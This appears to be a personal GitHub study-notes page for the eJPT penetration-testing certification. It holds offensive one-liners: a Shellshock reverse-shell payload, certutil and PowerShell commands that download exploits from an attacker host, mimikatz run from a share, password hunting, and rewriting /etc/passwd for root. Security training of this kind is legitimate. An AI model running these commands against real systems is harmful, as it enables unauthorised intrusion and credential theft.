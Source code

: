 # eJPT Study Notes

- Reference: [eJPT Preparation Course | Penetration Testing by PhD Security](https://www.youtube.com/watch?v=pdgBU9MDAwE)

- [Web Recon](WebRecon.md)

- Skipping Web Attacks for now [23:32 - 6:00:00]

- [Network Recon](NetworkRecon.md)
- [FTP Enum Exploit](FTPEnumExploit.md)
- [Active Directory](ActiveDirectory.md)
- [Pivoting](Pivoting.md)

## Common Knowledge
### Discovery
```
# cgi-bin:
if cgi-bin is present, always perform shellshock attack on a login form.
    exploit:
    User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
if the exploit doesnt work, try finding files in /cgi-bin using gobuster like .sh files .c files etc, then use Remote Code Injection vulnerability available in searchsploit.
```

### Initial Access
```
While grabbing a reverse shell either linux or windows use rlwrap
command:
    rlwrap nc -vnlp 1234
```
```
Converting to a full-tty shell after getting a shell:
    python -c 'import pty;pty.spawn("/bin/bash")
    <CLTR+Z>
    stty raw -echo
    fg
    <ENTER> <ENTER>
``` 

### Lateral Movement
- Reference #1: [https://sushant747.gitbooks.io/total-oscp-guide/content/windows.html](https://sushant747.gitbooks.io/total-oscp-guide/content/windows.html)
- Reference #2: [https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
- Reference #3: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- Reference #4: [https://fuzzysecurity.com/tutorials/16.html](https://fuzzysecurity.com/tutorials/16.html)


### Privilege Escalation
### Linux:
- Reference #1: [GTFObins](https://gtfobins.github.io/)
- Reference #2: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#looting-for-passwords)
- Reference #3: [HackTricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
```
Checklist:
  1) check sudo -l
  2) check for suid perms "find / -perm -4000 -type f -exec ls -la {} 2>/dev/null"
  3) check mounts
  4) check others users in the host
  5) check kernel version/sudo version
  6) check cronjobs/services scheduled.
  7) check for config files or password files.
  9) check permission of /etc/shadow and /etc/passwd
 10) check the history of the bash shell by typing "history"
 11) find for password files in FS using "locate password | more"
 12) find SSH id_rsa or authorized keys using "find / -name id_rsa|root_key 2>/dev/null"

LOLBin:
  1) mkpasswd: To make new password for a new user/exisiting user, by editing the /etc/passwd or /etc/shadow
  command:
      mkpasswd -m sha-512 pass123
  2) openssl: TO make password in /etc/passwd
  command:
      openssl passwd pass123
  note: After generating this password, replace the 'x' in the /etc/passwd of the user with this string.

Uncommon SUID binaries:
  1) tmux
  2) cpulimit
  3) mawk

Tools available to automate PE
  1) linPEAS
  2) LinEnum
  3) enum4linux
```

### Windows:
- Reference #1: [LOLBAS](https://lolbas-project.github.io/)
- Reference #2: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- Reference #3: [HackTricks.xyz](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
```
Checklist:
  1) Find the console history of powershell using the following command.
  command:
        C:\users\<username>\appdata\roaming\microsoft\windows\powershell\psreadline>type ConsoleHost_History.txt
  2) whoami /all
  note: 
  - if the output of the last command (/priv) has "SeImpersonatePrivilege" enabled, then PE can be done using potato attack. (rogue potato)
  - /groups is mainly used in AD environments.


LOLBin:
  1) certutil: Can be used to fetch files from a server.
  command:
        certutil -split -f -urlcache http://attacker-ip.com/exploit.exe 
  2) powershell: To put fetch files from a server.
  command:
        powershell -c 'IEX(New-Object Net.WebClient).downloadString("http://attacker.com/exploit.exe")'
  3) net use: If we need to fetch file from an smb server to the victim machine.
  command:
        net use \\<smb-ip>\share /u:username password
        cd \\<smb-ip>\share
        .\mimikatz.exe
  4) route print: To print the route as well as gives information about other hosts in the network.
  command:
        route print
  5) arp: To find all the hosts in the network and what devices it is communicating to.
  command:
        arp -a
  6) netstat: To find all the established connections on a host and all the available ports and their services.
  command:
        netstat -ano
  7) findstr: Finding sensitive strings within the victim filesystem.
  command:
        findstr /si password *.txt
        findstr /si password *.xml
        findstr /si password *.ini
        findstr /spin password *.*
  8) reg: Search for passwords in registry
  command:
        reg query HKLM /f password /t REG_SZ /s
  9) systeminfo: Get information of the system.
  command:
        systeminfo

  
  

Tools available to automate PE:
  1) Windows-Exploit-Suggester (suitable for older machines)
  2) winPEAS
  3) 411Hall/JAWS 
  4) PowerSploit/PowerUp
  5) enum4linux
```